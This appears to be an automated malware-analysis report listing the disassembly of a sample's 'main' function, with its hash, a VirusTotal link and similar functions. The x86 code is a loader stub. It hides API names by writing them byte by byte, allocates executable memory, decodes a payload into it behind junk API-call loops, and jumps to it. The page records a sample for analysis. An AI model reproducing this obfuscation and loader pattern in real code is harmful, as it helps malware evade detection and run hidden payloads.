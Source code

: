 ```yaml
---
layout: post
title:  "main @ 950fc8a60b5bfd2ed28e8806b8cb3a4d"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** main
- **Origin (md5):** 950fc8a60b5bfd2ed28e8806b8cb3a4d
- **VirusTotal:** [virustotal.com/gui/file/950fc8a60b5bfd2ed28e8806b8cb3a4d][virustotal_ref]

# Code Tags
<span class="tag" id="LINKING">LINKING</span>


# Similar Functions

1. [fcn.00405205][similar_1_ref] (sim.: 0.881463290696655)
2. [fcn.00405042][similar_2_ref] (sim.: 0.8786945312209826)
3. [fcn.00405042][similar_3_ref] (sim.: 0.8786945312209826)
4. [fcn.00404eb9][similar_4_ref] (sim.: 0.8786945312209826)
5. [fcn.00404eb9][similar_5_ref] (sim.: 0.8786945312209826)


# Disassembled Code

{% highlight nasm %}
push ebp
mov ebp,esp
and esp,0xfffffff8
sub esp,0x1d4
push ebx
push esi
push edi
lea eax,[esp+0x38]
push eax
call fcn.00404657
mov esi,0x5f8
xor ebx,ebx
lea eax,[esp+0xc0]
push eax
push ebx
push ebx
call dword[sym.imp.KERNEL32.dll_GetCPInfoExA]
dec esi
jne 0x41828c
push 0x4033a8
call dword[sym.imp.KERNEL32.dll_GetModuleHandleA]
mov esi,dword[sym.imp.KERNEL32.dll_GetProcAddress]
mov edi,str.zelokaxefamolaliyevexefakiwobe
push edi
push eax
mov dword[esp+0x20],eax
mov byte[str.zelokaxefamolaliyevexefakiwobe],0x56
mov byte[0x41b121],0x69
mov byte[0x41b122],0x72
mov byte[0x41b123],0x74
mov byte[0x41b124],0x75
mov byte[0x41b125],0x61
mov byte[0x41b126],0x6c
mov byte[0x41b127],0x50
mov byte[0x41b128],0x72
mov byte[0x41b129],0x6f
mov byte[0x41b12a],0x74
mov byte[0x41b12b],0x65
mov byte[0x41b12c],0x63
mov byte[0x41b12d],0x74
mov byte[0x41b12e],bl
call esi
mov dword[0x41c9a8],eax
mov eax,dword[0x41bd24]
mov dword[0x41cab8],eax
mov dword[esp+0xc],ebx
cmp dword[esp+0xc],0x7ca
jne 0x41834c
add dword[0x41cab8],0x38c77
cmp dword[esp+0xc],0x20a
jge 0x41835d
push ebx
call dword[sym.imp.KERNEL32.dll_SetConsoleOutputCP]
inc dword[esp+0xc]
cmp dword[esp+0xc],0xcfa
jl 0x418338
push edi
push dword[esp+0x1c]
mov byte[0x41b127],0x41
mov byte[0x41b128],0x6c
mov byte[0x41b129],0x6c
mov byte[0x41b12a],0x6f
mov byte[0x41b12b],0x63
mov byte[0x41b12c],bl
call esi
push 0x40
push 0x1000
push dword[0x41cab8]
mov dword[0x41c9ac],eax
push ebx
call eax
mov edi,eax
mov eax,dword[0x41b018]
add eax,0x38c77
xor esi,esi
cmp dword[0x41cab8],ebx
jbe 0x4183fc
mov dword[esp+0xc],eax
sub dword[esp+0xc],edi
cmp esi,0x8c9
jge 0x4183e4
push ebx
call dword[sym.imp.KERNEL32.dll_SetLastError]
push ebx
call dword[sym.imp.KERNEL32.dll_FindAtomA]
mov eax,dword[esp+0xc]
lea ecx,[esi+edi]
mov al,byte[eax+ecx]
call fcn.004180d6
inc esi
cmp esi,dword[0x41cab8]
jb 0x4183ce
mov dword[esp+0x10],0xbb
sub dword[esp+0x10],0x7b
xor esi,esi
cmp esi,0x70f
jge 0x41842f
lea eax,[esp+0xc0]
push eax
push ebx
push ebx
call dword[sym.imp.KERNEL32.dll_GetCPInfoExA]
push ebx
push ebx
push ebx
push ebx
push ebx
push ebx
call dword[sym.imp.KERNEL32.dll_CompareStringW]
inc esi
cmp esi,0xf2dc6
jl 0x41840b
lea eax,[esp+0x14]
push eax
push dword[esp+0x14]
push dword[0x41cab8]
push edi
call dword[0x41c9a8]
push edi
call fcn.0041823a
pop ecx
xor esi,esi
cmp esi,0x243478
jne 0x418466
push edi
call fcn.004180d9
pop ecx
cmp esi,0xc00
jge 0x41847b
push ebx
call dword[sym.imp.KERNEL32.dll_GetConsoleSelectionInfo]
call dword[sym.imp.KERNEL32.dll_SetFileApisToANSI]
inc esi
cmp esi,0x2d3db4
jl 0x418457
mov eax,dword fs:[0x2c]
mov eax,dword[eax]
xor esi,esi
push 0x4033b8
inc esi
push 0x4033fc
mov dword[eax+4],esi
call dword[sym.imp.KERNEL32.dll_WriteProfileSectionA]
push 0x40341c
lea ecx,[esp+0x20]
call fcn.00404439
push ebx
push esi
lea ecx,[esp+0x24]
call fcn.00404e15
lea ecx,[esp+0x8c]
call fcn.00404700
lea eax,[esp+0x8c]
push eax
mov dword[esp+0x90],0x403480
call fcn.00405413
pop ecx
pop edi
pop esi
xor eax,eax
pop ebx
mov esp,ebp
pop ebp
ret 0x10
{% endhighlight %}


[similar_1_ref]: /report/fcn.00405205@510c8408eb3f0420e19240592ddc0b5b
[similar_2_ref]: /report/fcn.00405042@06689e718004fe3ee3bfc132b456240e
[similar_3_ref]: /report/fcn.00405042@3a780067b4fcdbc523bd6f0e3b89f181
[similar_4_ref]: /report/fcn.00404eb9@045e0ff2c8ee6fdcaf20f3769c6f3c76
[similar_5_ref]: /report/fcn.00404eb9@595b48effa204acca09e846b8e091f46
[virustotal_ref]: https://www.virustotal.com/gui/file/950fc8a60b5bfd2ed28e8806b8cb3a4d